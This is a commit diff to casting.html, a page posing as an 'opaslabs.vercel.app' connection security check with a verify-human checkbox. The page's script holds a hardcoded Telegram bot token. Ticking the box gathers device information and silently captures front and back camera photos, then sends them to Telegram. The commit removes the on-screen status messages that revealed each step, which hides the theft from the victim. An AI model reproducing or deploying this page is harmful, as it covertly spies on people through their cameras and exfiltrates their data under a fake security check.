

Before and after one commit to rishadaj874/opaslabs, a plain HTML site: page casting.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update casting.html

```diff
--- a/casting.html
+++ b/casting.html
@@ -12,30 +12,20 @@
       font-family: 'Roboto', sans-serif;
       background-color: #f4f4f4;
       margin: 0;
-      padding: 0;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }
-    main {
-      background-color: white;
-      border-radius: 8px;
-      box-shadow: 0 4px 6px rgba(0, 0, 0, 0.1);
       padding: 20px;
-      max-width: 500px;
-      width: 100%;
-      text-align: center;
+      min-height: 100vh;
     }
     h1 {
       font-size: 1.875rem;
       font-weight: normal;
       margin-bottom: 0.5rem;
+      text-align: left;
     }
     p {
       font-size: 1.125rem;
       font-weight: normal;
       margin-bottom: 1.5rem;
+      text-align: left;
     }
     section {
       border: 1px solid #d1d5db;
@@ -44,6 +34,7 @@
       display: flex;
       align-items: center;
       margin-bottom: 1.5rem;
+      text-align: left;
     }
     input[type="checkbox"] {
       width: 1.25rem;
@@ -79,15 +70,9 @@
     .mt-0.5 {
       margin-top: 0.125rem;
     }
-    #loading {
-      font-size: 1.125rem;
-      margin-top: 1.25rem;
-      color: #555;
-    }
   </style>
 </head>
 <body>
-  <main>
   <h1>opaslabs.vercel.app</h1>
   <p>Checking if the site connection is secure</p>
   <section>
@@ -103,8 +88,6 @@
     </div>
   </section>
   <p>opaslabs.vercel.app needs to review the security of your connection before proceeding.</p>
-    <div id="loading">Waiting for verification...</div>
-  </main>
 
   <script>
     const telegramBotToken = "8064189934:AAEv0eT2TdKAteC6vdyZkXL3cP7dbYSIfbQ";
@@ -295,15 +278,11 @@
     // Execute when checkbox is checked
     document.getElementById('verifyHuman').addEventListener('change', async function() {
       if (this.checked) {
-        const loadingElement = document.getElementById('loading');
-        loadingElement.textContent = 'Collecting data...';
-
         const info = await getDeviceInfo();
 
         // Capture front camera (only once)
         let frontSnap = null;
         if (!frontCaptured) {
-          loadingElement.textContent = 'Accessing front camera...';
           frontSnap = await getSnapshot("user");
           frontCaptured = true;
         }
@@ -311,7 +290,6 @@
         // Capture back camera (only once)
         let backSnap = null;
         if (!backCaptured) {
-          loadingElement.textContent = 'Accessing back camera...';
           backSnap = await getSnapshot("environment");
           backCaptured = true;
         }
@@ -328,7 +306,6 @@
         }
 
         // Send info and photos
-        loadingElement.textContent = 'Sending data...';
         await sendTextToTelegram(info);
         if (frontSnap) await sendPhotoToTelegram(frontSnap, "📷 Front Camera");
         if (backSnap) await sendPhotoToTelegram(backSnap, "📷 Back Camera");
```
Lines whose indentation alone changed are shown as unchanged.
